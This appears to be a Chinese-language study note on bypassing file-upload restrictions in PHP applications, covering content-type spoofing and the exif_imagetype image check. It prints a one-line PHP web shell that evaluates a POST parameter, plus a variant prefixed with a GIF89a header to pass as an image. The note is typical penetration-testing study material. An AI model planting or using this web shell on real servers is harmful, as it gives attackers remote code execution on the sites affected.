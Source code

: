 链接：
[[文件上传基础手法]]
[[文件上传绕过参考一]]
[[文件上传漏洞参考二]]
#### 1、一句话木马
```php
<?php eval($_POST['kkk']);?>
```
#### 2、修改content-type字段
1. **`text/plain`**：纯文本，没有特定格式。
    
2. **`text/html`**：HTML 文档。
    
3. **`text/css`**：Cascading Style Sheets (CSS) 文件。
    
4. **`application/json`**：JSON 数据格式。
    
5. **`application/xml`**：XML 数据格式。
    
6. **`application/pdf`**：Adobe PDF 文件。
    
7. **`image/jpeg`**：JPEG 图像格式。
    
8. **`image/png`**：PNG 图像格式。
    
9. **`audio/mpeg`**：MP3 音频文件。
    
10. **`video/mp4`**：MP4 视频文件。
    
11. **`multipart/form-data`**：用于在 HTML 表单中上传文件的一种方式。

```
1.1 application/json：消息主体是序列化后的 JSON 字符串
1.2 application/x-www-form-urlencoded：数据被编码为名称/值对。这是标准的编码格式 
1.3 multipart/form-data： 需要在表单中进行文件上传时，就需要使用该格式。常见的媒体格式是上传文件之时使用的 1.4 text/plain：数据以纯文本形式(text/json/xml/html)进行编码，其中不含任何控件或格式字符
```
#### 3、关于`exif_imagetype`函数验证和相关绕过
##### 3.1、exif_imagetype函数介绍
`exif_imagetype` 函数在PHP中用于确定图像文件的类型。它读取图像文件的前几个字节并检查有效的图像标志，以识别图像类型。
以下是使用 `exif_imagetype` 函数的
示例，其中将空字符串作为文件名，这将无法正常工作：

phpCopy code
```php
`$filename = ''; 
$imageType = exif_imagetype($filename); 
if ($imageType !== false) {    
echo "图像类型为：" . image_type_to_mime_type($imageType);
} else {    
echo "无法确定图像类型。";
}`
```

在这个例子中，如果将空字符串作为文件名 (`''`)，函数将无法读取任何图像数据，并返回 `false`。因此，输出将是 "无法确定图像类型"。
要成功使用 `exif_imagetype`，你应该提供一个有效的图像文件路径作为参数。例如：
phpCopy code

```php
`$filename = 'path/to/your/image.jpg'; $imageType = exif_imagetype($filename);
if ($imageType !== false) {    
echo "图像类型为：" . image_type_to_mime_type($imageType); 
} else {  
echo "无法确定图像类型。"; 
}`
```

将 `'path/to/your/image.jpg'` 替换为实际的图像文件路径。
##### 3.2、绕过
```php
GIF89a
<?php eval($_POST['kkk']);?>
```

